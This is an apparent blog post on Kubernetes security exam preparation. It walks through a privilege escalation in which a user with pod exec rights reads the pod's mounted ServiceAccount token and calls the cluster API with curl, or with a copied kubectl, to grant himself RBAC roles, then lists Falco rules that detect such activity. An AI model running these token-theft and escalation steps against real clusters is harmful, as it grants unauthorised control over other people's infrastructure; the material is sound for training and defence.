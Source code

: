 ```yaml
---
title: "CKS preparation - abusing ServiceAccount to grant privileges"
date: 2021-02-03T06:00:00-04:00
last_modified_at: 2021-02-04
categories:
  - #certifications
tags:
  - #kubernetes
  - #certifications
  - #cks
comments: true
---
```


In this article I will show how Kubernetes ServiceAccount can used to gain
privileges. Of course, all this information should be only used for preparation
to CKS exam.

Let's say that we have a developer John, who has limited privileged in
namespace `frontend`:
```
$ kubectl -n frontend auth can-i list pods --as john
no
$ kubectl -n frontend auth can-i create pods --as john
no
$ kubectl -n frontend auth can-i create role --as john
no
```

But for debugging purposes, he was granted with "pod/exec" role. In `frontend`
namespace there is a `service` Pod, running under `service-sa` ServiceAccount,
which has permissions to create, modify or delete roles:
```YAML
apiVersion: v1
kind: ServiceAccount
metadata:
  name: service-sa
  namespace: frontend
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: service-role
  namespace: frontend
rules:
- apiGroups: ["rbac.authorization.k8s.io"]
  resources: ["*"]
  verbs: ["create","update","delete"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: service-binding
  namespace: frontend
subjects:
- kind: ServiceAccount
  name: service-sa
roleRef:
  kind: Role
  name: service-role
  apiGroup: rbac.authorization.k8s.io
```

Now, let's imagine that John wants to get more permissions. To do that, he has
logged into this pod. To interact with kube-api John has to install curl(I am
using alpine in the example):
```bash
apk add curl
```

Next step will be to find serviceAccount's token and kube-api endpoint:
```bash
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
export ENDPOINT=$KUBERNETES_SERVICE_HOST
export NAMESPACE=frontend
```

Knowing that, he ca create a new role via [API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-v1/#create-create-a-role):
```YAML
# Create ROLE in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/roles \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "Role",
    "metadata": {
        "name": "infra-role",
        "namespace": "frontend"
    },
    "rules": [
        {
            "apiGroups": [
                "rbac.authorization.k8s.io"
            ],
            "resources": [
                "*"
            ],
            "verbs": [
                "create",
                "update",
                "delete"
            ]
        }
    ]
}'
```

and assign that role to his entity([API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-binding-v1/#create-create-a-rolebinding)):
```YAML
# Create ROLEBINDING in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/rolebindings \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "infra-binding",
        "namespace": "frontend"
    },
    "roleRef": {
        "apiGroup": "rbac.authorization.k8s.io",
        "kind": "Role",
        "name": "infra-role"
    },
    "subjects": [
        {
            "apiGroup": "rbac.authorization.k8s.io",
            "kind": "User",
            "name": "john"
        }
    ]
}'
```

Since service account has permissions to create new roles and RoleBindings,
new permissions were granted to John:
```bash
$ kubectl -n frontend auth can-i create role --as john
yes
```

As a Cluster Administrator, it's not easy to find such activities. [Falco](https://falco.org/)
is a great tool that can monitor your cluster and report on all user actions.

It comes with a [default set of rules](https://github.com/falcosecurity/charts/blob/master/falco/rules/k8s_audit_rules.yaml),
which would generate alerts on John's actions:
```YAML
- rule: Attach/Exec Pod
  desc: >
    Detect any attempt to attach/exec to a pod
  condition: kevt_started and pod_subresource and kcreate and ka.target.subresource in (exec,attach) and not user_known_exec_pod_activities
  output: Attach/Exec to pod (user=%ka.user.name pod=%ka.target.name ns=%ka.target.namespace action=%ka.target.subresource command=%ka.uri.param[command])
  priority: NOTICE
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrole Created
  desc: Detect any attempt to create a cluster role/role
  condition: (kactivity and kcreate and (clusterrole or role) and response_successful)
  output: K8s Cluster Role Created (user=%ka.user.name role=%ka.target.name rules=%ka.req.role.rules resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrolebinding Created
  desc: Detect any attempt to create a clusterrolebinding
  condition: (kactivity and kcreate and clusterrolebinding and response_successful)
  output: K8s Cluster Role Binding Created (user=%ka.user.name binding=%ka.target.name subjects=%ka.req.binding.subjects role=%ka.req.binding.role resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
```

## Update

My colleague provide me with an even simpler way to do this - using kubectl
inside the cluster:

John could copy kubectl to the Pod:
```bash
$ kubectl cp $(which kubectl) pod-with-service-account:/ -n frontend
```

Once it's there, it's possible to use it to do all kind of manipulations with
kubernetes entities:
```bash
# /kubectl --namespace=frontend create role podview  --verb=get --verb=list   --resource=pods
role.rbac.authorization.k8s.io/podview created
```

If `kubectl` can't find $KUBECONFIG, it will use in-cluster configuration to work
with kube-api:
```
# /kubectl cluster-info -v=10
I0203 11:55:51.542573     193 merged_client_builder.go:121] Using in-cluster configuration
I0203 11:55:51.543028     193 merged_client_builder.go:121] Using in-cluster configuration
```

[According to documentation](https://github.com/kubernetes/client-go/blob/master/examples/in-cluster-client-configuration/README.md#authenticating-inside-the-cluster)
to client-go(and kubectl is using client-go):
```
client-go uses the Service Account token mounted inside the Pod at the
/var/run/secrets/kubernetes.io/serviceaccount path when the
rest.InClusterConfig() is used.
```
